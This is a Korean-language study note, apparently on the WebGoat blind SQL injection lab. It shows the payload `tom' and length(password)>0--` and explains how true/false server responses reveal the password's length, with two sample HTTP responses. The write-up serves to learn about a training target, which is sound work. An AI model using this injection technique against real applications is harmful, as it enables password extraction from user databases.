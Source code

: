   <img src="/Users/kayoung/webGoat/img/sqliBlind5.png" width="80%">

```sql
SELECT * FROM member WHERE username=''
```

우리는

```sql
SELECT * FROM member WHERE username='tom' and length(password)>0--
```

첫번째 FROM 절 실행, WHERE 절 실행: `username='tom'`이 참이되는 값들만 가져온다. `and` 연산자를 써야 tom의 password가 조회된다.

그리고 조회됐을 때 `true`가 되면 `User ~ already exitsts...`가 나오는 것이다. 우리는 비밀번호에 대한 조건들을 쿼리에 넣어가면서 참/거짓을 통해 비밀번호를 알아낼 수 있는 것이다: `Blind Injection`

### 길이 알아내기: length( *문자열* )

`length(password)>[길이]` 우리는 길이를 계속 바꿔가면서 결과를 보고 길이를 알아낼 수 있다.

이렇게 오면 `참 true`!!

```http
HTTP/1.1 200 OK
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Type: application/json
Date: Sun, 04 Oct 2020 13:43:53 GMT

{
  "lessonCompleted" : true,
  "feedback" : "User {0} already exists please try to register with a different username.",
  "output" : null,
  "assignment" : "SqlInjectionChallenge",
  "attemptWasMade" : true
}

```

이렇게 오면 조회가 안되는거여.

```http
HTTP/1.1 200 OK
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Type: application/json
Date: Sun, 04 Oct 2020 13:44:52 GMT

{
  "lessonCompleted" : true,
  "feedback" : "User tom' and length(password)>40-- created, please proceed to the login page.",
  "output" : null,
  "assignment" : "SqlInjectionChallenge",
  "attemptWasMade" : true
}
```
